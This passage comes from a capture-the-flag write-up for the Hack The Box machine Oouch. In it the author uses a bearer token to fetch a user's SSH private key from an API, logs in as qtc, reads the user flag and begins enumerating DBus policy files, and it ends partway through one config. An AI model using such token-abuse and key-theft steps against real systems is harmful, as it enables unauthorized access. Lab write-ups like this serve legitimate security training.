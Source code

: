 SSH
I can save that key to a file (using jq -r to print the raw contents) :

root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer LBLemeQIcZZtSgPB0Ax54DpJ1h1vrF" | jq -r '.ssh_key' > id_rsa_oouch_qtc
And connect over SSH as qtc:

root@kali# ssh -i ~/keys/id_rsa_oouch_qtc qtc@consumer.oouch.htb
Linux oouch 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 25 12:45:55 2020 from 10.10.14.6
qtc@oouch:~$
From here I can grab user.txt:

qtc@oouch:~$ cat user.txt
d5f8b4e6************************
Shell as qtc on consumer container
Local Enumeration
In the qtc homedir next to user.txt is .note.txt:

qtc@oouch:~$ cat .note.txt 
Implementing an IPS using DBus and iptables == Genius?
That must be what was redirecting to the “Hacking Attempt Detected” page I found earlier. According to Freedesktop.org:

DBus is a message bus system, a simple way for applications to talk to one another. In addition to interprocess communication, D-Bus helps coordinate process lifecycle; it makes it simple and reliable to code a “single instance” application or daemon, and to launch applications and daemons on demand when their services are needed.

Reading about DBus, it seems that various applications are configured in files inside /etc/dbus-1/system.d. There are five configs present on Oouch:

qtc@oouch:~$ find /etc/dbus-1/system.d -type f
/etc/dbus-1/system.d/bluetooth.conf
/etc/dbus-1/system.d/wpa_supplicant.conf
/etc/dbus-1/system.d/org.freedesktop.PackageKit.conf
/etc/dbus-1/system.d/com.ubuntu.SoftwareProperties.conf
/etc/dbus-1/system.d/htb.oouch.Block.conf
The most interesting is the one that’s specific to this box, likely the one referenced by the note:

qtc@oouch:~$ cat /etc/dbus-1/system.d/htb.oouch.Block.conf
<?xml version="1.0" encoding="UTF-8"?> 

<!DOCTYPE busconfig PUBLIC
 "-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
 "http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">

<busconfig>

    <policy user="root">
        <allow own="htb.oouch.Block"/>
    </policy>
